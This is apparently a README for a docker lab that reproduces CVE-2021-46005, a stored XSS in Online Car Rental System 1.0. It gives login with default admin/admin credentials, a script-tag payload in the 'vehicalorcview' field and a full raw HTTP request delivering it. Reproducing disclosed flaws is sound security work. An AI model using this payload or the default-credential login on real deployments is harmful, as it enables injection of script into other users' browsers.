



# CVE-2021-46005

Online Car Rental System 1.0 - Stored XSS

## Run Vuln

```
docker-compose build

docker-compose up -d
```

## Stop Vuln

```
docker-compose down -v
```

## Online Car Rental System

The Online Car Rental System with Source Code is a PHP project that allows you to transact online booking for car rentals. The system is using PHP and MySQL.The system is very straight forward. After you log in as admin, you can create a brand and add vehicles used for booking online. The system also has testimonials and a contact us page so the customer can give their feedback and contact the site owner. The customer can register on the website and select which vehicle they’d like to rent. The project's website has a pleasant user interface and it's user-friendly.

## Reproduction

1. Visit http://test.com/admin/ and Login as admin (admin / admin)



2. Visit http://localhost/car-rental/admin/post-avehical.php



3. Fill All the details on the page. After submitting, capture the request and change the "vehicalorcview" parameter with our Payload "<script>alert("CAR")</script>" and submit



My request here, please replace your own cookie.

```
POST /OnlineCarRental/admin/post-avehical.php HTTP/1.1
Host: test.com:9202
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------13786099262839578593645594965
Content-Length: 2085
Origin: http://test.com:9202
Connection: close
Referer: http://test.com:9202/OnlineCarRental/admin/post-avehical.php
Upgrade-Insecure-Requests: 1

-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="vehicletitle"

TestName
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="brandname"

2
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="vehicalorcview"

<script>alert("CAR")</script>
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="priceperday"

200
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="fueltype"

Diesel
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="modelyear"

2008
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="seatingcapacity"

22
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="img1"; filename="Untitled.png"
Content-Type: image/png

�PNG

-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="img5"; filename=""
Content-Type: application/octet-stream


-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="powerdoorlocks"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="antilockbrakingsys"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="driverairbag"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="passengerairbag"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="centrallocking"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="crashcensor"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="submit"


-----------------------------13786099262839578593645594965--
```

4. Open the http://localhost/car-rental/ and our Payload excuted.


